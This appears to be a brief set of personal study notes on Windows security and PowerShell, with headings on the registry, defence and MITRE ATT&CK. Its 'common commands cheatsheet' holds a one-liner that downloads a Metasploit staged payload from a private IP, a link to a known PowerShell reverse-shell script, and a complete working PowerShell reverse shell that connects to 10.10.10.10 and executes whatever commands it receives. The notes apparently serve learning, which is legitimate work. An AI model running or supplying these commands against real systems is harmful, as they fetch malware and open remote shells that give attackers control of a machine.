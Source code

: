 ### Things to learn
C#, Sysinternals, Windows Audit logs, 

### Common commands cheatsheet
- Download a file ```(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')```
- Execute powershell code from URL 
- Powershell reverse shells - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1, ```$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

### Windows Registry
- Gui tool  -  Registry Editor (regedit)
- User level  -  HKEY_CURRENT_USER (HKCU)
- Machine level  -  HKEY_LOCAL_MACHINE (HKLM)  -  Needs admin privs to edit

# Important notes
- WMIC will be depricated, Miscorosft is suggesting to stick witk powershell
- SANS powershell course material  -  https://blueteampowershell.com

# Powershell for Defense

# Windows security
MITRE's ATT&CK Matrix for Windows
